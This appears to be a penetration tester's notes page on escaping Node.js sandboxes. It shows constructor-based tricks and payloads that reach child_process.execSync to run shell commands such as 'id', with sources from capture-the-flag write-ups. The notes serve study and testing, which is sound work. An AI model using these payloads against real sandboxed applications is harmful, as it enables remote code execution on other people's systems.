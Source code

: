 # more languages and technologies will be addes soon 

## nodejs sandbox bypass 101

this payloads or techniques not necessarily to work on real targets , it just explainging how to do it 

### constructor function 
A constructor function in JavaScript is a special type of function that is used to create and initialize objects , so we can use it to create functions since functions are objects in javascript


### the idea of bypass is to access the constructor property of a function to create your evil functions bypassing restricted rules which is set in the sandbox , so  create object access function or any property which reffer to a function then access its constructor property which refers to the constructor function (note `"".constructor()` is a function )

![Screenshot_20230808_161658](https://github.com/kiro6/penetration-testing-notes/assets/57776872/bef0f085-20c3-428f-810e-5271d67d4de2)

  
- examples 
```js

// ''.split.constructor()() === ''["split"]["constructor"]("console.log(1)")()

[].push.constructor("console.log(1)")()

"".split.constructor("console.log(1)")()

"".constructor.constructor("console.log(1)")()

''["sub"]["constructor"]('console.log(1)')()

Number(1).constructor.constructor("console.log(1)")()

```

### we have another technique to understand it i recommend reading [this](http://kangax.github.io/nfe/)

```js

(function (y) {return ''[!y?'__proto__':'constructor']['constructor']})('constructor')('console.log(1)')()

(function(prop) { return ''[prop ? "constructor":"benign"  ][prop] })("constructor")("console.log(1)")()

(function({anything}){return anything.constructor})({anything:"".split})("console.log(1)")()

```

### ofcourse we can do more than just console , here is how to import modules inside the evil functions you create

```
process.mainModule.require("child_process").execSync("id")

global.process.mainModule.constructor._load("child_process").execSync("id")
```

### final examples 

```
(function (y) {return ''[!y?'__proto__':'constructor']['constructor']})('constructor')('throw new SyntaxError(process.mainModule.require(\"child_process\").execSync(\"id\").toString())')()


"".sub.constructor('throw new SyntaxError(process.mainModule.require(\"child_process\").execSync(\"id\").toString())')()


(function({book}){return book.constructor})({book:"".sub})("console.log(global.process.mainModule.constructor._load(\"child_process\").execSync(\"id\").toString())")()

```

#### sources 
- https://hilb3r7.github.io/walkthroughs/babybreakinggrad.html
- https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/
